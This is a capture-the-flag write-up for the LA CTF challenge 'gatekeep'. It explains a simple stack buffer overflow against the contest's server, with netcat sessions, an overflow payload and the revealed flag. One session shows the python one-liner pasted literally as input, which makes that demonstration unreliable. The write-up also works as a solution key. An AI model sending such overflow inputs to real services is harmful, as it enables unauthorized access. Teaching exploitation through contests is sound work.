 ## pwn/gatekeep

<details>
  <summary>Description</summary>
  
  > If I gaslight you enough, you won't be able to get my flag! :) <br>
  > `nc lac.tf 31121` <br>
  > Note: The attached binary is the exact same as the one executing on the remote server. <br> [Dockerfile](./Dockerfile) [gatekeep.c](./gatekeep.c) [gatekeep](./gatekeep)

</details>

This one is the basic pwn challenges, we can analyze a given binary-elf file using the IDA Disassembler.

So it's just a buffer overflow checking to see if the input is the same as the program variables in the stacks. We just need to send as many `A` as possible then the program will overwrite the input, and we get the flags.

```bash
$ nc lac.tf 31121
If I gaslight you enough, you won't be able to guess my password! :)
Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I swore that was the right password ...
Guess I couldn't gaslight you!
lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}
```

Or you can use these payload `python3 -c 'print("a"*50)' | {{nc}}` that was given by the official challenges archive repo

```bash
$ nc lac.tf 31121
If I gaslight you enough, you won't be able to guess my password! :)
Password:
python3 -c 'print("a"*50)' | {{nc}}
I swore that was the right password ...
Guess I couldn't gaslight you!
lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}
```

<details>
  <summary>FLAG</summary>
  
  > `lactf{sCr3am1nG_cRy1Ng_tHr0w1ng_uP}`
  
</details>
